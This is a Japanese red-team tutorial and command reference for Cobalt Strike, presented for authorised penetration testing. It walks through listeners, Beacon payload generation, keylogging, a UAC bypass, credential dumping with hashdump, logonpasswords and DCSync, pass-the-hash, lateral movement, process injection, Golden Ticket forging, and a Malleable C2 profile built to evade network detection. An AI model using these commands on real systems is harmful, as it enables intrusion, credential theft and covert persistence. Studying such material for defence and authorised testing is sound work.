



> **注意:** 本記事は許可されたペネトレーションテスト・レッドチーム演習・セキュリティ研究を目的としています。所有権がない、または書面による明示的な許可のないシステムへの無断使用は違法です。

## TL;DR

Cobalt Strike は許可されたレッドチーム演習で広く使われる商用の敵対シミュレーションフレームワークです。**そのアーキテクチャ・Beacon ペイロード・ポストエクスプロイテーション機能を理解することは、レッドチームにとっても、ディフェンダー（ブルーチーム）にとっても重要です。** 本記事ではリスナー設定からポストエクスプロイテーションまでのコアワークフローを解説します。

---

## アーキテクチャ概要



### コアコンポーネント

| コンポーネント | 役割 |
|---|---|
| **チームサーバー** | Java ベースの C2 サーバー。全 Beacon とオペレーターセッションを管理 |
| **クライアント（GUI）** | チームサーバーに接続するオペレーターインターフェース |
| **Beacon** | 侵害ホスト上で動作するインプラントペイロード |
| **リスナー** | C2 チャンネルの設定（HTTP/HTTPS/SMB/DNS/TCP） |
| **Aggressor Script** | 自動化・カスタマイズ用の組み込みスクリプト言語 |
| **Malleable C2** | Beacon のネットワークトラフィックの見た目をカスタマイズするプロファイルシステム |

---

## リスナー（Listener）

リスナーは Beacon がチームサーバーへ通信する方法を定義します。

### 主なリスナー種別

| 種別 | 通信 | 用途 |
|---|---|---|
| HTTP | ポート 80 | Web プロキシ経由の通信 |
| HTTPS | ポート 443 | 暗号化通信（最も一般的） |
| DNS | UDP 53 | ファイアウォール回避（低速） |
| SMB | 名前付きパイプ | 内部の横移動 |
| TCP | 生ソケット | Beacon チェーン |
| HTTPS リダイレクター | CDN 経由 443 | 帰属隠蔽 |

### HTTPS リスナーの作成

```
Cobalt Strike → Listeners → Add
  Name:     lab-https
  Payload:  Beacon HTTPS
  Host:     192.168.1.10
  Port:     443
  Profile:  default（または Malleable C2 プロファイル）
```

### SMB Beacon リスナー（横移動用）

```
  Name:    lab-smb
  Payload: Beacon SMB
  Pipename: msagent_##   （## = ランダム）
```

SMB Beacon は名前付きパイプで通信するため、ターゲットからのインターネット接続が不要です。

---

## Beacon ペイロード

### ペイロードの生成

**Attacks → Packages → Windows Executable (Stageless)**

| 形式 | 用途 |
|---|---|
| Windows EXE | 直接実行 |
| Windows Service EXE | `psexec` / SCM 実行 |
| Windows DLL | DLL インジェクション・サイドローディング |
| PowerShell | `powershell -enc ...` 配布 |
| Raw | カスタムローダー向けシェルコード |
| HTML Application (HTA) | ブラウザ経由配布 |

### Staged vs Stageless の比較

| 種別 | サイズ | OPSEC | 備考 |
|---|---|---|---|
| **Stageless** | 大きい（〜200KB+） | 良好 — ステージャーのコールバックなし | ほとんどの用途で推奨 |
| **Staged** | 小さいステージャー | 劣る — ステージャーが検出されやすい | サイズ制限のある配布に有用 |

---

## Beacon 操作

Beacon がチェックインしたら Beacon コンソールで操作：

```
beacon> help
```

### 基本コマンド

| コマンド | 説明 |
|---|---|
| `sleep 60` | チェックイン間隔（秒）；`sleep 0` = インタラクティブ |
| `sleep 60 50` | 60秒 ± 50% ジッター（OPSEC 向け） |
| `pwd` | カレントディレクトリを表示 |
| `ls` | ディレクトリ一覧 |
| `cd path` | ディレクトリ変更 |
| `download file` | ファイルのダウンロード |
| `upload /local/file` | ファイルのアップロード |
| `shell cmd` | `cmd.exe /c` 経由で実行 |
| `run cmd` | `cmd.exe` を介さず実行 |
| `execute-assembly tool.exe args` | .NET アセンブリをメモリ上で実行 |
| `powershell command` | PowerShell 経由で実行 |
| `powerpick command` | Unmanaged PowerShell（powershell.exe 不使用） |

### プロセス情報

```
beacon> ps                    # プロセス一覧
beacon> getuid                # 現在のユーザー
beacon> getpid                # 現在の PID
beacon> getsystem             # SYSTEM への昇格を試みる
```

### スクリーンショット・キーロガー

```
beacon> screenshot            # 1回スクリーンショット
beacon> screenwatch           # 連続スクリーンショット
beacon> keylogger             # キーロガー起動（プロセスにインジェクト）
beacon> keylogger_stop        # 停止
beacon> jobs                  # 実行中ジョブの一覧
beacon> jobkill <id>          # ジョブ強制終了
```

---

## 権限昇格

### 組み込みの昇格モジュール

```
beacon> elevate               # 利用可能なエクスプロイト一覧
beacon> elevate uac-token-duplication <listener>
beacon> elevate svc-exe <listener>
```

### runasadmin（UAC バイパス）

```
beacon> runasadmin uac-cmstplua powershell.exe -nop -w hidden -c "IEX..."
```

### 外部モジュールのインポートと実行

```
beacon> execute-assembly /opt/tools/SharpUp.exe audit
beacon> execute-assembly /opt/tools/Seatbelt.exe -group=all
```

---

## 認証情報の収集

### 組み込みの Mimikatz 連携

```
beacon> hashdump              # ローカル SAM ダンプ（SYSTEM 必要）
beacon> logonpasswords        # sekurlsa::logonpasswords
beacon> dcsync <domain> <user>  # DCSync で特定ユーザーのハッシュ取得
```

### 収集した認証情報の確認

```
View → Credentials
```

演習全体で収集されたハッシュと平文パスワードを集約表示します。

### Make Token（取得した認証情報を使用）

```
beacon> make_token DOMAIN\user password     # ログオントークンを作成
beacon> rev2self                            # トークンを破棄
```

### プロセスからトークンを窃取

```
beacon> steal_token <PID>    # 指定プロセスのトークンを偽装
beacon> rev2self             # 元に戻す
```

---

## 横移動（Lateral Movement）



### jump コマンド（ワンステップ横移動）

```
beacon> jump                  # 利用可能な手法の一覧
beacon> jump psexec   target  listener   # PsExec サービス
beacon> jump psexec64 target  listener   # PsExec 64ビット
beacon> jump winrm    target  listener   # WinRM
beacon> jump winrm64  target  listener   # WinRM 64ビット
beacon> jump wmi      target  listener   # WMI
beacon> jump wmi64    target  listener   # WMI 64ビット
```

### remote-exec（Beacon を使わずコマンド実行）

```
beacon> remote-exec psexec  target command
beacon> remote-exec wmi     target command
beacon> remote-exec winrm   target command
```

### SMB Beacon の手動接続

SMB Beacon ペイロードを配布した後：

```
beacon> link target           # 名前付きパイプで SMB Beacon に接続
beacon> unlink target         # 切断
```

### Pass-the-Hash + 横移動

```
beacon> pth DOMAIN\user NTLM_HASH   # ハッシュを注入してトークンを取得
beacon> jump psexec target lab-smb  # 窃取したトークンで横移動
beacon> rev2self
```

---

## ポストエクスプロイテーションモジュール

### ポートスキャン

```
beacon> portscan 192.168.1.0/24 1-1024,3389,8080-8090 arp 1024
```

### ネットワーク列挙

```
beacon> net computers           # ドメインコンピューターの一覧
beacon> net domain              # ドメイン情報
beacon> net domain_controllers  # DC の一覧
beacon> net group_list          # ドメイングループの一覧
beacon> net localgroup          # ターゲットのローカルグループ
beacon> net sessions            # ターゲットのアクティブセッション
beacon> net share               # 共有フォルダ
beacon> net user                # ドメインユーザーの一覧
beacon> net view                # ネットワーク上のホスト
```

### SOCKS プロキシ（ピボット）

```
beacon> socks 1080              # チームサーバーのポート 1080 で SOCKS4a プロキシ起動
beacon> socks stop              # 停止

# 攻撃者マシンの proxychains 設定後：
# proxychains nmap -sT 192.168.10.0/24
```

### ポートフォワーディング

```
beacon> rportfwd 8080 192.168.10.5 80   # ローカル 8080 → 内部 192.168.10.5:80
beacon> rportfwd stop 8080
```

---

## インジェクション & プロセス操作

### 新規プロセスで Spawn

```
beacon> spawn listener          # 新規プロセスで子 Beacon を生成
beacon> spawnas DOMAIN\user password listener   # 別ユーザーとして生成
```

### 既存プロセスへのインジェクト

```
beacon> inject <PID> x64 listener   # 実行中プロセスにインジェクト
```

### Shinject（カスタムシェルコードのインジェクション）

```
beacon> shinject <PID> x64 /path/to/shellcode.bin
```

### PPID スプーフィング

```
beacon> ppid <PID>    # 生成する全プロセスの親 PID を偽装
```

### Blockdlls（非 Microsoft DLL のブロック）

```
beacon> blockdlls start
beacon> blockdlls stop
```

---

## Kerberos 操作

```
beacon> kerberos_ticket_use /path/to/ticket.kirbi   # PTT（チケット注入）
beacon> kerberos_ticket_purge                        # チケットを全削除
beacon> golden /domain:corp.local /sid:<SID> /krbtgt:<HASH> /user:Administrator  # Golden Ticket
beacon> silver /domain:corp.local /sid:<SID> /service:cifs /target:dc01 /rc4:<HASH> /user:admin  # Silver Ticket
beacon> dcsync corp.local CORP\krbtgt               # krbtgt ハッシュを DCSync
```

---

## Malleable C2 プロファイル

Malleable C2 プロファイルは Beacon のネットワーク通信の見た目を制御します。ネットワーク検知の回避に不可欠です。

### 主要なプロファイルセクション

```
# 例：jQuery リクエストに見せかける
http-get {
    set uri "/jquery-3.3.1.min.js";

    client {
        header "Host" "ajax.googleapis.com";
        header "Accept-Encoding" "gzip, deflate";
        metadata {
            base64url;
            parameter "callback";
        }
    }

    server {
        header "Content-Type" "application/javascript";
        output {
            prepend "jQuery.ajax({url:'/api',data:'";
            append "'});";
            print;
        }
    }
}
```

### プロファイルの検証

```bash
./c2lint /path/to/profile.profile
```

---

## Aggressor Script 基礎

Cobalt Strike 組み込みのスクリプト言語でタスクを自動化：

```
# 新しい Beacon がチェックインした際に自動実行
on beacon_initial {
    local('$bid');
    $bid = $1;
    binput($bid, "Beacon 初期化完了");
    blog($bid, "ポストエクスプロイテーション偵察を開始...");
    bshell($bid, "whoami /all");
    bps($bid);           # プロセス一覧
    bgetuid($bid);
}
```

スクリプトの読み込み：

```
Cobalt Strike → Script Manager → Load → .cna ファイルを選択
```

---

## 運用フローのまとめ



---

## クイックリファレンス

| 目的 | コマンド |
|---|---|
| ジッター付きチェックイン間隔設定 | `sleep 60 50` |
| ローカルハッシュのダンプ | `hashdump` |
| ドメイン認証情報のダンプ | `logonpasswords` |
| DCSync | `dcsync corp.local CORP\user` |
| Pass-the-Hash | `pth DOMAIN\user HASH` |
| 横移動（PsExec） | `jump psexec target listener` |
| SMB Beacon の接続 | `link target` |
| .NET ツールの実行 | `execute-assembly tool.exe args` |
| SOCKS プロキシ | `socks 1080` |
| プロセスへのインジェクト | `inject <PID> x64 listener` |
| Golden Ticket の偽造 | `golden /krbtgt:HASH /user:X` |
| スクリーンショット | `screenshot` |
| ポートスキャン | `portscan <range> <ports>` |
